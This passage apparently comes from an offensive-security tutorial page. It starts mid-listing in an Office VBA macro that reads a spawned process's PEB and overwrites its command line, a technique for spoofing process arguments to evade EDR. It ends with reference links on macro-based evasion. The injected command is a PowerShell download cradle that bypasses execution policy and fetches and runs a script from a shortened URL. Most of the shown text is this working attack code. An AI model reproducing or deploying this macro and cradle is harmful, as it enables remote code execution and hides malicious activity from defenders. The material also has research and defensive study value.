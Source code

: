 ```csharp
    )
    
    ' Spoofing of cli arguments
    Dim size As Long
    Dim PEB As PEB
    Dim pbi As PROCESS_BASIC_INFORMATION
    Dim newProcessHandle As LongPtr
    Dim success As Boolean
    Dim parameters As RTL_USER_PROCESS_PARAMETERS
    Dim cmdStr As String
    Dim cmd() As Byte
    
    newProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, False, pi.dwProcessId)
    result = NtQueryInformationProcess(newProcessHandle, 0, pbi, Len(pbi), size)
    success = ReadProcessMemory(newProcessHandle, pbi.PEBBaseAddress, VarPtr(PEB), Len(PEB), size)
    ' peb.ProcessParameters now contains the address to the parameters - read them
    success = ReadProcessMemory(newProcessHandle, PEB.ProcessParameters, VarPtr(parameters), Len(parameters), size)
    
    cmdStr = "powershell.exe -noexit -ep bypass -c IEX((New-Object System.Net.WebClient).DownloadString('http://bit.ly/2TxpA4h')) # "
    cmd = convertStr(cmdStr)
    success = WriteProcessMemory(newProcessHandle, parameters.CommandLine.Buffer, StrPtr(cmd), 2 * Len(cmdStr), size)
    ResumeThread (pi.hThread) 
End Sub
```

![](../../../.gitbook/assets/screenshot-from-2019-04-10-22-49-40.png)

## References

{% embed url="https://www.countercept.com/blog/dechaining-macros-and-evading-edr/" %}

{% embed url="https://blog.didierstevens.com/2008/10/23/excel-exercises-in-style/" %}

{% embed url="https://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros/" %}

{% embed url="https://blog.didierstevens.com/2009/05/06/shellcode-2-vbscript/" %}

{% embed url="https://blog.christophetd.fr/building-an-office-macro-to-spoof-process-parent-and-command-line/" %}



